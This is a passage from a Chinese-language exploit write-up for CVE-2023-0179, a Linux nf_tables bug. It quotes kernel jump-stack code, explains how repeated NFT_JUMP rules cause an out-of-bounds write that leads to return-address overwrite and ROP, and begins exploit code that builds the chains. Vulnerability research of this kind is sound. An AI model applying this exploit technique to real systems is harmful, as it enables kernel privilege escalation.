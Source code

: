 ```javascript
  }

  switch (regs.verdict.code) {
  case NFT_JUMP:
    if (WARN_ON_ONCE(stackptr >= NFT_JUMP_STACK_SIZE))
      return NF_DROP;
    jumpstack[stackptr].chain = chain;
    jumpstack[stackptr].rules = rules + 1;
    stackptr++;
    fallthrough;
  case NFT_GOTO:
    nft_trace_packet(&info, chain, rule,
         NFT_TRACETYPE_RULE);

    chain = regs.verdict.chain;
    goto do_chain;
  case NFT_CONTINUE:
  case NFT_RETURN:
    nft_trace_packet(&info, chain, rule,
         NFT_TRACETYPE_RETURN);
    break;
  default:
    WARN_ON(1);
  }

  if (stackptr > 0) {
    stackptr--;
    chain = jumpstack[stackptr].chain;
    rules = jumpstack[stackptr].rules;
    goto next_rule;
  }
```

 ![](/attachments/2023-10-18-cve-2023-0179-linux/065b65c4-aa16-41fc-92f1-ed336e8ba155.jpeg)

 ![](/attachments/2023-10-18-cve-2023-0179-linux/0c63e908-6b17-4832-a95a-e2e1fb9913e4.png)

通过增加多个verdict.code为NFT_JUMP的规则，在规则执行后就会填充jumpstack数组，并在最后一个规则触发越界写，修改jumpstack数组，控制其中的rules指针，后续覆盖返回地址，做ROP即可。

```javascript
struct unft_base_chain_param bp;
    bp.hook_num = NF_INET_PRE_ROUTING;
    bp.prio = 10;

    for (int i = 0; i < exp_chain_num; i++)
    {
        sprintf(exp_chain_name, "%s%d", "exp_chain", i);
        void *p = NULL;
        if (!i)
             p = &bp;
        if (create_chain(nl, table_name, exp_chain_name, NFPROTO_BRIDGE, p, &seq, NULL))
        {
            perror("Failed creating exp chain");
            exit(EXIT_FAILURE);
        }

    }

    for (int i = 0; i < exp_chain_num; i++)
    {
        sprintf(exp_chain_name, "%s%d", "exp_chain", i);
        sprintf(exp_chain_name_next, "%s%d", "exp_chain", i+1);

```